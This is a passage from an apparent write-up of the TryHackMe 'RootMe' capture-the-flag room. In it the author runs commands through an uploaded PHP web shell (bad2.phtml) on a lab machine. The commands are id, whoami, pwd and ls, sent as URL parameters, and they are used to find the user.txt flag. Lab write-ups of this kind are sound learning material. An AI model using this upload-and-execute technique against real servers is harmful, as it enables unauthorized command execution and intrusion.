 Now, we reupload and then do the same test, but instead of running the previous queries, we will run them on bad2.phtml.

```markdown
http://10.201.124.246/uploads/bad2.phtml?command=id
http://10.201.124.246/uploads/bad2.phtml?command=whoami
http://10.201.124.246/uploads/bad2.phtml?command=pwd
```

![command now works](/images/THM%3A%20RootMe/idcmd.png) <br>
![command now works](/images/THM%3A%20RootMe/whoamicmd.png) <br>
![command now works](/images/THM%3A%20RootMe/pwdcmd.png)

From these commands, we essentially did some reconnaissance, especially from the last one, we see multiple directories that we can access or go back to.

One of the questions the CTF asks us is to find the flag related to `user.txt`. The way I approached this was to just navigate around, and accidentally stumbled across `user.txt` in the `/var/www` directory. I used `ls` as the command.

```markdown
http://10.201.124.246/uploads/bad2.phtml?command=ls /var/www/html
http://10.201.124.246/uploads/bad2.phtml?command=ls /var/www
```

![ls on /var/www/html](/images/THM%3A%20RootMe/html.png) <br>